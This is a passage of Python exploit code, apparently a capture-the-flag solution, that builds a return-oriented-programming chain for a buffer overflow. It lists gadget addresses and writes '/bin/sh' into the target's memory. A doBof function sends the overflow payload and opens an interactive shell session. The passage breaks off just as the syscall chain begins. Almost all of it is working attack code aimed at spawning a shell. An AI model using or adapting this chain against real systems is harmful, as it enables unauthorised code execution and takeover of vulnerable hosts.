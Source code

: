 ```
pop_rax = 0x0000000000400c91

# 0x0000000000400eb3: pop rdi; ret;
pop_rdi = 0x0000000000400eb3

# 0x0000000000400eb1: pop rsi; pop r15; ret;
pop_rsi_r15 = 0x0000000000400eb1

# 0x0000000000400c93: syscall; ret;
syscall = 0x0000000000400c93

# 0x00000000004009a0: pop rbp; ret;
pop_rbp = 0x00000000004009a0

# 0x0000000000400c8e: mov dword ptr [rbp - 8], eax; pop rax; ret;
mov_ptr_rbp_eax = 0x0000000000400c8e

# the string "/bin/sh" as two 4-byte integer in little endian
binsh1 = 0x6e69622f
binsh2 = 0x0068732f

def write2mem(data, location):
        chain = ""

        chain += p64( pop_rax )
        chain += p64( data )

        chain += p64( pop_rbp )
        chain += p64( location + 8)

        chain += p64( mov_ptr_rbp_eax)
        chain += p64( 0xdeadbeef1 )     # pop rax

        return chain

def doBof(payload):
        print tube.recvuntil("> ")
        tube.send("1");

        print tube.recv()
        tube.send(str(len(payload)));

        print tube.recv()
        tube.send(payload)

        print tube.recv()

        tube.interactive()


payload = "A" * offset

# write "/bin/sh" to sh_addr
# the write2mem gadget uses "eax", 4 bytes,
# so we have to write the string as 2 x 4 bytes
payload += write2mem(binsh1, sh_addr)
payload += write2mem(binsh2, sh_addr+4)


# Start ROP chain

# dup2() syscall is 33

```